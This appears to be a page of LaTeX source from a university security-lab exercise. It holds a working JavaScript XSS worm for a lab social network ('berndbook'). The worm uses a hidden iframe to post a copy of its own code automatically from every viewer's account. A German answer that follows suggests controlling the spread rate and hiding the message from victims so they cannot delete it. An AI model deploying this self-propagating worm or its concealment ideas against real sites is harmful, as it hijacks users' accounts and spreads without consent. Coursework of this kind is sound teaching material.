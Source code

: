 \documentclass[10pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[caption=Berndbookworm, label=berndbookworm]
CHello my freend!
<img src="https://alcapwn.de/logo.png" />
<iframe src="http://berndbook.seclab.uni-paderborn.de/send.php" name="send_in_a_box" style="visibility:hidden;" width="0" height="0"></iframe>

<script type="text/javascript" src="http://code.jquery.com/jquery-1.10.2.min.js">
</script>

<script type="text/javascript">

function reproduction(n){
	if (n >0){
		reproduction_function = reproduction.toString();
		iframe_string = "CHello my freend!<img src=\"https://alcapwn.de/logo.png\"\/><iframe src=\"http://berndbook.seclab.uni-paderborn.de/send.php\" name=\"send_in_a_box\" style=\"visibility:hidden;\" width=\"0\" height=\"0\"></iframe>";
		jquery_string = "<script type=\"text/javascript\" src=\"http://code.jquery.com/jquery-1.10.2.min.js\"><\/script>";
		script_start = "<script type=\"text/javascript\">";
		function_call = "$('body').attr('onload','reproduction(" + (n-1) + ");');"
		script_end = "<\/script>";
		msg = iframe_string + jquery_string + script_start + reproduction_function + function_call + script_end;
		$('iframe').contents().find('textarea').val(msg);
		$('iframe').contents().find('input[type=checkbox]').click();
		$("iframe").contents().find("input[type=submit]").click()
	}
}

$('body').attr('onload','reproduction(2);');
</script>
\end{lstlisting}

\subsection*{b)}
Eine Möglichkeit die Ausbreitungsgeschwindigkeit zu reduzieren wäre die Nachricht beim sehen nur mit einer gewissen Wahrscheinlichkeit weiterzusenden. Über diese Wahrscheinlichkeit lässt sich dann die Geschwindigkeit regulieren. Um sicherzustellen, dass jeder User die Nachricht auch bekommt/weiterschickt, muss man dafür sorgen, dass der User die Nachricht nicht löscht bevor sie weitergeschickt wurde. Dies kann man erreichen, indem man die Nachricht vor dem User versteckt. Dafür könnte man per JavaScript die Website so anpassen, dass die Nachricht nicht angezeigt wird bis sie weitergeschickt wurde.

\section*{Aufgabe 3}
\end{document}
